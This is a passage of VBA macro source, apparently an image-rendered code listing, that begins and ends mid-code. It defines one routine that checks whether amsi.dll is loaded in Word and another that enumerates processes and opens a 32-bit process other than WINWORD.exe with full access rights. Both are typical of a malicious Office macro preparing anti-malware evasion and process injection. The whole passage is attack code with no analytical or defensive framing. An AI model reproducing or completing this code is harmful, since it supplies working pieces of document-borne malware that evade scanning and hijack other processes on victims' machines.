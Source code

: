 ```vba
    #End If
End Function

Function amcheck(StrFile As String, Is64 As Boolean) As Boolean
    'Checks for amsi.dll in word process. If found, returns True
    Dim szProcessName As String
    Dim hMod(0 To 1023) As LongPtr
    Dim numMods As Integer
    Dim res As LongPtr
    amcheck = False
    
    'Assumes 1024 bytes will be enough to hold the module handles
    res = EnumProcessModulesEx(-1, hMod(0), 1024, cbNeeded, &H3)
    If Is64 Then
        numMods = cbNeeded / 8
    Else
        numMods = cbNeeded / 4
    End If
    
    For i = 0 To numMods
        szProcessName = String$(50, 0)
        GetModuleBaseName -1, hMod(i), szProcessName, Len(szProcessName)
        If Left(szProcessName, 8) = StrFile Then
            amcheck = True
        End If
        Next i
End Function

Function findWow64() As Long
    'Enumerates processes on the target and attempts to find one running under WOW64 (i.e. its a 32-bit process)
    'Returns a HANDLE to a 32-bit proc, or 0 if nothing found
    'Assumes only called in 32-bit context
    Dim hProcs(0 To 1023) As LongPtr
    Dim res As LongPtr
    Dim numProcs As Integer
    Dim isWow64 As Boolean
    Dim szProcessName As String
    Dim hMod(0 To 1023) As LongPtr

    isWow64 = False
    findWow64 = 0

    res = EnumProcesses(hProcs(0), 1024, cbNeeded)
    If res <> 0 Then
        numProcs = cbNeeded / 4
        For i = 0 To numProcs
            If hProcs(i) <> 0 Then
                hProcess = OpenProcess(&H1F0FFF, False, hProcs(i))
                If hProcess <> 0 Then
                    res = IsWow64Process(hProcess, isWow64)
                    If isWow64 Then
                        findWow64 = hProcess
                        res = EnumProcessModulesEx(findWow64, hMod(0), 1024, cbNeeded, &H3)
                        szProcessName = String$(50, 0)
                        GetModuleBaseName findWow64, hMod(0), szProcessName, Len(szProcessName)
                        ' Exit immediately if we've found a 32-bit proc other than the Word process
                        If Left(szProcessName, 11) <> "WINWORD.exe" Then
                            Exit Function
                        End If
                    Else
                        res = CloseHandle(hProcess)
                    End If
```